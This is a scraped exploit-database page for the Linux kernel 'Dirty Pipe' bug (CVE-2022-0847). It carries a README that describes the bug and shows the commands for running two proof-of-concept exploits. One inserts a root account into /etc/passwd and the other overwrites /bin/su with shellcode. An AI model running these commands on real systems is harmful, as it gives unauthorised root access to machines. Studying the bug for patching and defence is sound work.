 ```yaml
---
title: Exploit for Improper Initialization in Linux Linux Kernel exploit
url: https://sploitus.com/exploit?id=3BEECAD0-0163-5C18-AE71-9DA3E0C552E8&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-05
fetch_date: 2025-10-04T03:03:06.148687
---
```


# Exploit for Improper Initialization in Linux Linux Kernel exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Improper Initialization in Linux Linux\_Kernel CVE-2022-0847

2023-01-04 | CVSS 7.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=3BEECAD0-0163-5C18-AE71-9DA3E0C552E8
# Dirty-Pipe-CVE-2022-0847-POCs
- Author: Max Kellermann max.kellermann@ionos.com
- Contributor: Bl4sty https://twitter.com/bl4sty
A new Linux vulnerability known as 'Dirty Pipe' allows local users to gain root privileges through publicly available exploits.

Today, security researcher Max Kellermann responsibly disclosed the 'Dirty Pipe' vulnerability and stated that it affects Linux Kernel 5.8 and later versions, even on Android devices.

The vulnerability is tracked as CVE-2022-0847 and allows a non-privileged user to inject and overwrite data in read-only files, including SUID processes that run as root.

Kellerman discovered the bug after tracking down a bug that was corrupting web server access logs for one of his customers.

Then Bl4sty wrote another version. Instead of overwriting a file like /etc/passwd, it overwrites a user-specified SUID binary (like /bin/su), injecting shellcode that is then executed with privileged user (i.e. root) permissions.

## Exploit 1
```bash
┌──(ghost㉿uchiha)-[~]
└─$gcc PoC1.c -o exploit1
┌──(ghost㉿uchiha)-[~]
└─$./exploit1 /etc/passwd 189 'evil:$6$USR$aNQSBWd3Bdn4Eo8ZaAjBBXW7M3CM7NnW3vX0Ulrei18dDifAiS0pB2iqCxVCK0nCKfRjdCSqgKHagkul6JEHT/:0:0::/root:/bin/bash
'
```
## Exploit 2
```bash
┌──(ghost㉿uchiha)-[~]
└─$gcc PoC2.c -o exploit2
┌──(ghost㉿uchiha)-[~]
└─$./exploit2 /bin/su
```
For detailed use refer: https://medium.com/@ajithcrajendran/cve-2022-0847-dirty-pipe-a5d68f422dcf
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)